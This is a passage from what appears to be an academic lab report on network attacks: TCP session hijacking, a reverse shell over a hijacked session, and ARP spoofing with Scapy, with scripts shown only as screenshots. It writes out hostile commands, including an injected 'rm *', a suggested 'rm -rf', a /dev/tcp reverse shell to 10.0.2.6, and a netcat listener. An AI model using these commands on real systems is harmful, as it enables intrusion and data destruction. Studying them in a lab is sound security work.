In the following screenshot, the RESET packet is captured via Wireshark\footnote{Visit https://www.wireshark.org for further information.} and the communication between the two machines is terminated. It is also noticeable that, after the RST packet is sent, the victim with 10.0.2.4 as its IP address, is sending ARP packets, asking who has the IP 10.0.2.5, which it previously had a connection with. 

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/RST3.png}
\caption{TCP Reset Attack - RST Packet.\label{RST2}}
\end{figure}


\subsection{Session Hijacking}

Session Hijacking is a technique to overtake an already active connection between the victim and a host machine, using spoofed packets. A key attribute that makes this attack effective is that the victim is already authenticated before carrying out the attack. On the other hand, the attacker must be on the same network as the victim \cite{erickson2008}. By sniffing the network segment, all the necessary information of open TCP connections can be taken out from the headers. The attacker manages to access the sequence number (SYN) for a connection and sends a spoofed packet from the victim's IP address to the host machine \cite{whitaker2006}.

The host machine will receive the packet with the correct acknowledgment number (ACK) and will continue the communication with no reason to believe the spoofed packet didn't come from the victim machine \cite{erickson2008}.

In this packet, the attacker can include malicious content, making the attack even more effective and damaging. Session Hijacking is considered to be a man-in-the-middle (MITM) attack \cite{whitaker2006}.

Following, a similar attack is performed, using a temporary text file to show that the attack was successful. In the screenshot below, the new text file is created in the server machine.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking1.png}
\caption{Session Hijacking - File Creation.\label{SH1}}
\end{figure}

In the next screenshot we establish a Telnet connection with the Guest Server. We can see our file "\_file.txt" in the TCP folder.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking2.png}
\caption{Session Hijacking - Telnet Connection Establishment.\label{SH2}}
\end{figure}

The last data packet sent to the server is captured and its "Next Sequence Number" and "Acknowledgement Number" are used to forge our hijacking packet, as shown in Figure \ref{SH3}

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking3.png}
\caption{Session Hijacking - Captured Packet.\label{SH3}}
\end{figure}

The Python script used to hijack the established connection is shown in Figure \ref{SessionHijackingCode}. In the code below, we provide the command \textbf{\textit{"rm *"}} as payload data, which removes everything on the current folder. The packet is then assembled with the required headers, sent to the victim and the command that came as data in the packet, gets executed.

\begin{figure}[H]
\centering

\includegraphics[width=1.22\textwidth]{Resources/Attacks/Code/SessionHijacking.png}
\caption{Session Hijacking - Python Script.\label{SessionHijackingCode}}
\end{figure}

Finally, the result of this attack can be seen below. After executing the script, the packet is sent to the server, the file gets deleted and that sums up the success of the attack.

\begin{figure}[H]
\centering

\includegraphics[width=1.2\textwidth]{Resources/Attacks/Pictures/SessionHijacking4.png}
\caption{Session Hijacking - File Deleted.\label{SH4}}
\end{figure}

 Of course, many different commands could replace the one we chose to use as payload, having a more severe impact on the victim's integrity, It is up to the attacker's intentions that lead him/her to decide how he/her will take advantage of the situation. A more powerful example would be using the command \textbf{\textit{"rm -rf"}}. While using the same command, changing the flags can have a significantly bigger impact. In this case, using the flags \textit{r} and \textit{f}, the result of executing this command would be to recursively remove the directories and their contents without prompting before removing any write-protected file.

\subsection{Reverse Shell}

Reverse Shell is a tunnel created with a remote shell program. After the tunnel is created, the attacker can launch commands back from the tunnel destination machine to the tunnel originating machine with the credentials of the tunnel creator \cite{whitaker2006}.

The aim of this attack is to run a reverse shell from the target machine to the to give the attacker the shell to the target machine after hijacking a TCP session. The result has the attacker skipping firewall since the connection was through the well-known TCP port 80\footnote{Egress Filtering is when a firewall acts as gatekeeper for networks or network segments and manages ingress and egress of data. Although Egress filtering doesn't include filtering input and output from port 80, since this is a well-known port for TCP connections and users utilise it very often \cite{weidman2014}.}, and having access to the remote machine \cite{weidman2014}\cite{whitaker2006}.

To begin the attack, the Next Sequence Number of the last packet sent between the victim and the other host, is captured using Wireshark.
Afterwards, the Python script is properly modified, which allows the attacker to hijack the TCP session and execute the shell command: \newline \textbf{\textit{/bin/bash -i \textgreater /dev/tcp/10.0.2.6/9090 2\textgreater\&1 0\textless\&1}} \newline in order to open a remote shell with the specified IP address and port. This is done by creating a packet with the necessary IP and TCP headers and the shell command as data of the packet. Then, the packet is sent, which kicks off the attack.

\begin{figure}[H]
\centering

\includegraphics[width=1.22\textwidth]{Resources/Attacks/Code/ReverseShell.png}
\caption{Reverse Shell - Python Script.\label{ReverseShellCode}}
\end{figure}


As shown in Figure \ref{ReverseShellAttack}, the first step of the attacker is to start listening on the specified port and wait for a connection to be established from the victim machine. That is accomplished with the execution of the shell command \newline \textbf{\textit{nc -lv 9090}} \newline
where 9090 is the associated port number.

Succeeding the execution of the script, the reverse shell is properly installed and the attacker has an open remote shell connected to the victim, and the possibility to execute commands. This is proved in the following screenshot, using the \textbf{\textit{"ifconfig"}} command to demonstrate the different IP addresses, before and after  ending the connection.

\begin{figure}[H]
\centering

\includegraphics[width=1.4\textwidth]{Resources/Attacks/Pictures/ReverseShell.png}
    \caption{Reverse Shell - Final Result.\label{ReverseShellAttack}}
\end{figure}


\section{ARP Spoofing and Sniffing}

The address resolution protocol (ARP) is a full-featured dynamic resolution protocol used by the Internet Protocol (IP), specifically IPv4, to map IP network addresses to the hardware addresses used by a data link protocol. The protocol operates below the network layer as a part of the interface between the OSI network and OSI link layer \cite{whitaker2006}\cite{weidman2014}.

The term address resolution refers to the process where network layer addresses are associated with  data link layer addresses. The address is "resolved" using a protocol in which a piece of information is sent by a client process executing on the local computer to a server process executing on a remote computer\cite{pyles2016}. The information received by the server allows the server to uniquely identify the network system for which the address was required and therefore to provide the required address. The address resolution procedure is completed when the client receives a response from the server containing the required address \cite{weidman2014}. ARP requests are sent out when a device knows an IP address but does not know the MAC address of a requested host \cite{whitaker2006}.

There are many types of ARP messages that may be sent by the ARP protocol. These are identified by nine values in the "operation" field of an ARP message. The types of message are shown below, with their associated opcodes \footnote{In accordance to the many different RFCs for the ARP protocol, with RFC 826, \url{https://tools.ietf.org/html/rfc826} , describing the protocol itself.}.

\begin{enumerate}
    \item ARP request
    \item ARP reply
    \item Reverse ARP (RARP) request
    \item Reverse ARP (RARP) reply 
    \item Dynamic Reverse ARP (DRARP) request
    \item Dynamic Reverse ARP (DRARP) reply 
    \item Dynamic Reverse ARP (DRARP) error 
    \item Inverse ARP (InARP) request
    \item Inverse ARP (InARP) reply 
\end{enumerate}

ARP requests are sent out as broadcasts so that all hosts receive the request \cite{pyles2016}.

\subsubsection{ARP Spoofing}

Address resolution protocol (ARP) spoofing or ARP cache poisoning is a technique that causes the redirection of network traffic to a hacker. To perform such an attack, the attacker sends (spoofed) ARP messages onto a local area network. The aim is to associate the attacker's MAC address with the IP address of another host, such as the default gateway, causing any traffic meant for that IP address to be sent to the attacker instead \cite{whitaker2006}\cite{erickson2008}.
This way, the attacker will become the man-in-the-middle between the victim and another host machine, acting as the victim machine. 

Before starting the attack, you can see the associated IP and MAC addresses of the victim in the screenshot below.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/arp1.PNG}
    \caption{ARP Spoofing - Victim's ARP Table.\label{ARP1}}
\end{figure}

Following, is the Python script which was executed by the attacker to perform the ARP spoofing, shown in two pictures. 

\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/ARP1.png}
    \caption{ARP Spoofing - Python Code part 1\label{ARPcode1}}
\end{figure}

In the beginning of the Python file, we import the necessary libraries to perform the attack, with Scapy being the most important. Our first function, "\textit{\_enable\_linux\_iproute()}", is there to enable IP forwarding for the attacker's machine. For a more smooth and less detectable attack, this should be performed on the victims as well. The command that was used is only suitable for Linux Distributions. With the "\textit{get\_args()}", the argument given by the attacker get parsed and assigned to variables. Afterwards, there is the "\textit{get\_mac(ip)}" function that expects an IP address as an argument in string format. Its role is to return the associated MAC address of the IP address given that is connected in the network. If the address is not found, \textit{None} is returned by the function.

\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/ARP2.png}
    \caption{ARP Spoofing - Python Code part 2\label{ARPcode2}}
\end{figure}

The above picture shows the rest of the ARP spoofing code, starting with the "\textit{spoof(target\_ip,host\_ip)}" function. This function is responsible for collecting the required information to craft and send the ARP packet to the victims. Afterwards, there is the "\textit{restore(target\_ip, host\_ip)}" procedure which is executed when the attack is about to be terminated in order to ensure an orderly functioning of the network. Lastly, we have the main procedure where we call the methods described above and perform the attack. 

After executing the script and performing the attack, the MAC address that the host machine has associated with the victim machine has changed and is now the attacker's MAC address.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/arp2.PNG}
    \caption{ARP Spoofing - Victim's ARP Table during the attack.\label{ARP2}}
\end{figure}


To properly complete the ARP poisoning attack and avoid disrupting the communication, the connection must be restored as shown in the following picture. This is done using the "\textit{restore(target\_ip, host\_ip)}" function in Figure \ref{ARPcode2}.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/arp1.PNG}
    \caption{ARP Spoofing - Victim's ARP table, after restoring the changes done.\label{ARP3}}
\end{figure}

\section{DNS Server Cache Poisoning}


\subsection{Domain Name System}

A Domain Name System (DNS) is a system used by the TCP/IP Internet Protocol to associate domain names to their server's IP addresses \cite{charles2005}. The Domain Name System consists of three basic name system functions, shown in Figure \ref{DNS}

\begin{figure}[H]
\centering
